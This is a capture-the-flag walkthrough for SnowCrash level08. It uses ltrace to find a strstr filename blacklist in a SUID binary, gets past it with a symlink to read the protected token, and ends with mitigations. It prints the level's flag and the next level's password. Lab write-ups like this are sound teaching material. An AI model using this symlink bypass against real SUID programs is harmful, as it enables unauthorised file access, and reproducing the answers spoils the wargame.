 # SnowCrash Level08 Walkthrough

## Overview

Level08 presents a **path traversal/symlink bypass vulnerability** combined with a **filename blacklist check**. The target executable attempts to prevent reading a specific file (`token`) but can be bypassed using symbolic links.

## Initial Analysis

In the level08 home directory, we find two files:

```bash
level08@SnowCrash:~$ ls -all
total 28
dr-xr-x---+ 1 level08 level08  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level08 level08  220 Apr  3  2012 .bash_logout
-r-x------  1 level08 level08 3518 Aug 30  2015 .bashrc
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
-r-x------  1 level08 level08  675 Apr  3  2012 .profile
-rw-------  1 flag08  flag08    26 Mar  5  2016 token
```

- `level08`: SUID binary executable (runs as `flag08`)
- `token`: Protected file containing the flag (readable only by `flag08`)

## Binary Behavior Analysis

The program requires a filename argument:

```bash
level08@SnowCrash:~$ ./level08
./level08 [file to read]
```

Attempting to read the `token` file directly fails:

```bash
level08@SnowCrash:~$ ./level08 token
You may not access 'token'
```

## Dynamic Analysis with ltrace

Using ltrace to understand the program's behavior without reverse engineering:

```bash
level08@SnowCrash:~$ ltrace ./level08 token
__libc_start_main(0x8048554, 2, 0xbffff7b4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("token", "token") = "token"
printf("You may not access '%s'\n", "token"You may not access 'token'
) = 27
exit(1 <unfinished ...>
+++ exited (status 1) +++
```

## Vulnerability Analysis

The ltrace output reveals the security mechanism:

- The program calls strstr("token", "token")
- This indicates a simple substring check for the word "token"
- The check is performed on the input string before file access

## Exploitation Strategy

### Step 1: Create Symbolic Link

Create a symbolic link with a different name pointing to the token file:

```bash
level08@SnowCrash:~$ ln -s ~/token /tmp/myToken
```

### Step 2: Execute with Symlink Path

```bash
level08@SnowCrash:~$ ./level08 /tmp/myToken
quif5eloekouj29ke0vouxean
```

## Success!

The symlink bypasses the filename check, revealing the flag: `quif5eloekouj29ke0vouxean`

## Privilege Escalation

Use the obtained password to switch to `flag08` user:

```bash
level08@SnowCrash:~$ su flag08
Password: quif5eloekouj29ke0vouxean
```

Obtain the level09 password:

```bash
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```

## Key Learning Points

1. **Blacklist Bypass**: Simple string matching is insufficient for security checks
2. **Symbolic Link Attacks**: Symlinks can bypass path-based security checks
3. **Path Canonicalization**: Always resolve paths to canonical form before security checks
4. **SUID Privilege Escalation**: SUID bit enables file access with elevated privileges

## Mitigation

To prevent this vulnerability:

- Use `realpath()` to resolve symbolic links
- Check file permissions directly instead of path names
- Implement whitelist approaches instead of blacklists
- Use `stat()` to check file metadata

## Next Steps

Password for Level09: `25749xKZ8L7DkSCwJkT9dyv6f`
